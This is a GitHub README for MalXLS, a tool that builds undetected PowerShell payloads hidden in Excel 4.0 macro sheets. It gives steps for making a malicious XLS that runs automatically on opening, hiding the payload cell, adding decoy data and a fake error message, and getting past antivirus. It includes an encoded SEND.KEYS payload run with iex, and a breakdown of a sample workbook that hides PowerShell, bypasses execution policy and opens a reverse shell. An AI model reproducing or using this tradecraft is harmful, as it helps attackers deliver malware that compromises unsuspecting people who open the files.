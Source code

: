 # Disclaimer

MalXLS is provided "as is", without warranty of any kind. The author of the project takes no responsibility for the abuse of anything provided and presented in the repository. Illegal usage of MalXLS is strictly prohibited.

# MalXLS

MalXLS is a quick way to encode undetected PowerShell payloads for Excel 4.0 Macro sheets.

Note that antivirus software may block the execution of certain PowerShell scripts even if the payload itself is undetected. It is the user's responsibility to work around the antivirus or disable it through other means.

### Why use the XLS format instead of XLSM? Why use Excel 4.0 Macros instead of VBA?

https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

Read starting from the ``Support for XLM`` section.

## Getting Started

- Create a new Excel workbook and save it under the XLS format, then insert a new MS Excel 4.0 Macro sheet.
- (Optional) Delete the default sheet and rename the macro sheet to something less obvious
- Insert your payload into the macro sheet (preferrably in a random cell), then rename the first cell of the payload to ``Auto_Open`` to run the payload automatically when opening the file
  - For an example, see the provided ``Book1.xls`` file. It does not contain a cell named ``Auto_Open``
  - See [Usage](#usage) for instructions on generating a payload
- Activate cell ``A1`` so that it is not immediately obvious where the payload is when opening the file
- (Optional) Insert some faux data at the beginning of the sheet

### Prerequisites

[.NET Framework 4.8](https://dotnet.microsoft.com/download/dotnet-framework/net48) is required to run the binary that computes payloads.

If you are using Windows 10 with the May 2019 Update (1903) you are good to go, otherwise you need to install it.

### Usage

The payload generator can be downloaded from the [Releases](https://github.com/davidcristian/MalXLS/releases) page. The source code is available in the ``Generate Payload`` directory.

```
Usage: computepayload [OPTION]... [FILE]... [-C]
  -e    Compress a file using GZip and encode it into a base64 string
  -f    Fix the bad characters in a file (use on one-liners)
  -c    Copy the commands into the clipboard instead of displaying them
```
Example:

```
.\ComputePayload.exe -e .\clear_history.ps1 -c 
=SEND.KEYS("$b=""H4sIAAAAAAAEAJWQQWsCMRCF7wv{+}h0Es7h42h14KggeRWkvVLkbwID2k7sgGshnZjMoi/vcm7hZb8NDeMpm8L{+}{+}9XqGOmMklqtxoizCEuGcPxkDqh/gFOZ1TfjAI6fMIpDZo2dRjsqztAeEmTJJO1In0zst/ExM4dyKAsUFVpVNyHKbwboWO00xx0XxzU7zvWZNNxFQ7pqqWAeefeRAELcASSzpi{+}spYNraY9n{+}EtIQm4hAW"; TRUE)
=SEND.KEYS("eGoxq3qPMNEh6D88BdrlR7xmGy42c72tyNGORUYnrGSBxohM{+}uocGQzcmed{+}DAZXaauMfYsXQOPwXmvfrjeydt60WOLO4DYYEyPnsPw0tefNSOVrzUWmKtbKLFSJcbdVrLXN6eTEhKrSdZOr0XsrIdHmb1g7zwvHtdIc9x/Okyd4vPSTO4l9C1/sVYH1SwIAAA=="";nal no New-Object -F;iex {(}no IO.StreamReader{(}no "; TRUE)
=SEND.KEYS("IO.Compression.GZipStream{(}{(}no IO.MemoryStream -A @{(},{[}Convert{]}::FromBase64String{(}$b{)}{)}{)},{[}IO.Compression.CompressionMode{]}::Decompress{)}{)}{)}.ReadToEnd{(}{)}~{NUMLOCK}"; TRUE)
```

``Book1.xls`` breakdown:

![](breakdown.png)

1.  Disable all warnings and errors so that the macro never breaks
2.  Open PowerShell in a minimized state (keystrokes still go through)
3.  Wait 1 second
4.  Hide the PowerShell window
5.  Continuation of 4.
6.  Wait 1 second
7.  Open a 32bit PowerShell session if the current one is 64bit
8.  Wait 1 second
9.  Set the execution policy to bypass for the current session so that any script may run
10. Wait 1 second
11. Start a reverse TCP connection to 192.168.144.134 on port 4242 (Note that this is blocked by Windows Defender)
12. Continuation of 11.
13. Continuation of 11.
14. Wait 1 second
15. Activate the Excel window
16. Display a faux error message about there being an error when opening the file
17. Close Excel (no warnings will be shown due to 1.)

## Known Issues

- Sending large commands requires multiple wait instructions (usually every 3 cells). The cause for this is unknown because the ``TRUE`` switch for ``SEND.KEYS`` should wait for the keystrokes to be processed before going to the next instruction, which is not always the case and results in mixed keystrokes and a broken payload.

## License

This project is licensed under the GPLv3 License - see the [LICENSE](LICENSE) file for details

Files belonging to other authors have their license in the same directory as them.

## Acknowledgments

* PowerShell decoding, decompression, execution, hide_window.ps1, and assure_32bit.ps1 snippets from MaMe82's [helper.js](https://github.com/RoganDawes/P4wnP1_aloa/blob/master/dist/HIDScripts/helper.js) file for [P4wnP1 A.L.O.A.
](https://github.com/RoganDawes/P4wnP1_aloa)
* PowerShell clear_history.ps1 script from [here](https://stackoverflow.com/a/38807689)
* PowerShell reverse_shell.ps1 script from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) (second one)
* [This](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf) excellent book
